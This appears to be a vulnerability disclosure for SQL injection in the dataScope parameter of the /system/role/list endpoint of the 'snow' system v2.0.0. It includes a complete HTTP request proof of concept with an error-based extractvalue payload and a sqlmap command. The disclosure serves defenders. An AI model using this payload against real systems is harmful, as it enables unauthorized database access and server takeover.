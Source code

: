 target:https://gitee.com/qimingjin/snow    version: v2.0.0  
The snow system has a vulnerability classified as severe. This may cause attackers to remotely inject operating system commands or code directly into the backend server. So as to control the backend system.Attackers can steal sensitive data, such as user credentials, personal information, or business data, by injecting malicious SQL queries. Or control the server through SQL injection .  
SQL injection exists in the dataScope parameter of the /system/role/list interface of the system.  
The cause of this vulnerability is the use of the $ placeholder symbol.  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/f03ed2f3-cfb3-43c0-aac3-43b476d201da)  
Find the front-end interface of the interface and click search in the role management.  
<img width="415" alt="image" src="https://github.com/biantaibao/snow_SQL/assets/131763503/874707cd-41a3-45e7-8f33-f30444ec5ddf">   
poc:  
POST /system/role/list HTTP/1.1  
Host: 127.0.0.1:9527  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 150  
Origin: http://127.0.0.1:9527  
Connection: close  
Referer: http://127.0.0.1:9527/system/role  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704968094;  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

roleName=11&roleKey=11&status=&params%5BbeginTime%5D=&params%5BendTime%5D=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))  

Successfully viewed database。  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/f3ecfa83-796b-43c3-abd3-4dbfdef48aba)  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/b186c4dc-cc72-45d1-9223-7bb7e38dace1)  
sqlmap command：python sqlmap.py -r sql.txt  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/384af2e6-084b-4218-a8ef-103382374912)






